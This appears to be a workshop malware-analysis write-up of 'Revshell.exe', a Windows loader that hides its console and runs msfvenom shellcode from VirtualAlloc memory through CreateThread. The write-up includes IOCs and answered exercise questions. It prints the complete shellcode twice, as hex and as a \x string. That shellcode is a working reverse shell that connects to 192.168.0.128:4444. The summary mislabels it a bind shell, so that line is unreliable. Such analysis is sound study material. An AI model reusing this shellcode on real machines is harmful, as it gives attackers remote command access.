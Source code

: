 ```yaml
---
title: "RevShell"
date: 2025-1-28
categories: [Malware Analysis,Malware-Analysis-and-Reversing-Workshop]
tags: [Malware Analysis,Malware-Analysis-and-Reversing-Workshop]
image: assets/logo/MAARE.png
---
```


## Executive Summary

The method of found involves using msfvenom to generate a payload that creates a bind shell for remote access, which is then embedded into a program that hides its console window, allocates memory for the payload, and executes it through a new thread.

---

### Sample information

| **Attribute**         | **Value**                                                                                      |
|-------------------------|----------------------------------------------------|
| **File name**           | Revshell.exe                                       |
| **File size**           | 10 KB                                              |
| **File type**           | Executive Application                              |
| **MD5**                 | e007490bf6a65e754902fa7a46bf1e31                   |
| **SHA1**                | d10c5b4eef622b728ebbc035727ae160fd580a26           |
| **SHA256**              | 137562a049e2d6aef2310070435e623dea623b2b5363beea083f5a28323a4538 |
| **Packer / compiler info** | N/A                                             |
| **Compile time**        | Fri May 17 14:52:52 2024 (UTC)                     |

---

## Case-Specific Requirements

### **Environment**
- **Operating System:** Windows

### **Tools Used**
- **IDA**  
- **APIMonitor**  
- **ProcMon**

---

## Static Analysis
Entering the main using IDA. The code starts the line with hides the application's console window using FindWindowA to get a handle to the console window and ShowWindow with the parameter 0 to hide it.

![img](assets/11-Revshell.exe/image212.png)

A buffer v7 is created to store data, and qmemcpy is used to copy 325 bytes from a memory address unk_402128 into this buffer.

Memory is allocated using VirtualAlloc with read, write, and execute permissions ‘0x40’ for storing the copied data.

After copying the buffer into the allocated memory, a thread is created using CreateThread, which executes the code at the allocated memory address ‘v4’.

Finally, the program waits indefinitely for the thread to finish using WaitForSingleObject. The operations of these code performs dynamic execution of a payloads in memory.

![img](assets/11-Revshell.exe/image213.png)
 
The starting hex was ‘fc’ followed with ‘e8’,’82’ and so one. Extract all the hex would be like:

```
fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 14 8b 72 28 0f b7 4a 26 31 ff ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52 10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1 51 8b 59 20 01 d3 8b 49 18 e3 3a 49 8b 34 8b 01 d6 31 ff ac c1 cf 0d 01 c7 38 e0 75 f6 03 7d f8 3b 7d 24 75 e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a 8b 12 eb 8d 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 ff d5 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 05 68 c0 a8 00 80 68 02 00 11 5c 89 e6 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 68 63 6d 64 00 89 e3 57 57 57 31 f6 6a 12 59 56 e2 fd 66 c7 44 24 3c 01 01 8d 44 24 10 c6 00 44 54 50 56 56 56 46 56 4e 56 56 53 56 68 79 cc 3f 86 ff d5 89 e0 4e 56 46 ff 30 68 08 87 1d 60 ff d5 bb f0 b5 a2 56 68 a6 95 bd 9d ff d5 3c 06 7c 0a 80 fb e0 75 05 bb 47 13 72 6f 6a 00 53 ff d5 00 00 00 00
```
 
Turn the empty space into ‘\x’:

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x00\x00\x00\x00
```

Google dork first 8 byte:

![img](assets/11-Revshell.exe/image214.png)

It was a common ‘msfvenom’ of x86 program for tcp encoded

![img](assets/11-Revshell.exe/image215.png)

---

##	 Dynamic Analysis

Using APIMonitor and can see the API load and created a Thread.

![img](assets/11-Revshell.exe/image216.png)

Checking the ProcMon, the Thread was created before an TCP connection attempt to connect with the machine existed.

![img](assets/11-Revshell.exe/image217.png)

TCP attempt on the port 4444:

![img](assets/11-Revshell.exe/image218.png)

---

##	 IOCs

| IOC                                                                                          | Type                                |
|---------------------------------------------------------------------------------------------|-------------------------------------|
|  192[.]168[.]0[.]128[:]4444	|  IP:PORT  |

---
 
##	 Additional Notes

- **What is the size (in hex) of the shellcode bytes found in the malware?**
  - `145`

- **What is the virtual address of the shellcode reside in the program?**
  - `402128`

- **What is the WinAPI that is used to run the shellcode?**
  - `CreateThread`

- **How many parameters does VirtualAlloc take in the code?**
  - `4`
